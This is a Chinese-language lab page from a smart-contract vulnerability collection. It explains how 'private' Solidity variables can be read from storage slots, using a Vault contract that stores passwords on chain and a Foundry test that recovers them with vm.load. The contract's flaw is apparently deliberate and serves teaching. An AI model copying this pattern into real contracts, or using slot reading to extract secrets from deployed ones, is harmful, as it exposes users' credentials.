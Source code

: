 # 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  

**名称：** 私有数据泄露  

**描述：**  
Solidity在合约中定义的变量存储在插槽(slots)中。每个插槽可以容纳最多32字节或256位。  
鉴于链上存储的所有数据，无论是公开的还是私有的，都可以被读取，  
因此可以通过预测私有数据所在的内存插槽来从Vault合约中读取私有数据。

如果Vault合约在生产环境中被使用，恶意行为者可能使用类似的技术来访问敏感信息，如用户密码。  

**缓解方法：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  



**Vault合约：**  
```solidity
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```
**如何测试：**  
`forge test --contracts src/test/Privatedata.sol -vvvv`  

```solidity
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建Vault合约的新实例,其中参数为“123456789”。
    VaultContract = new Vault(123456789);

    // 将Vault合约地址和插槽编号0作为vm.load函数的参数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 使用 vm.load 函数再次读取数据，
    // 但这次使用了VaultContract中的getArrayLocation方法来计算动态数组中特定元素的存储插槽。
    // 这是因为在以太坊中，数组的存储不是在连续的块中，而是通过哈希计算找到每个元素的位置
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于你的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从bytes32转换为uint256。
    console.log(uint256(user));
}
```
**红色框：** 读取私有数据成功。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbfa76e84-7cd5-45ce-8b04-9032673ab3af%2FUntitled.png?table=block&id=09c2a521-e269-4e04-8e81-7516e5c8ac58&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2) 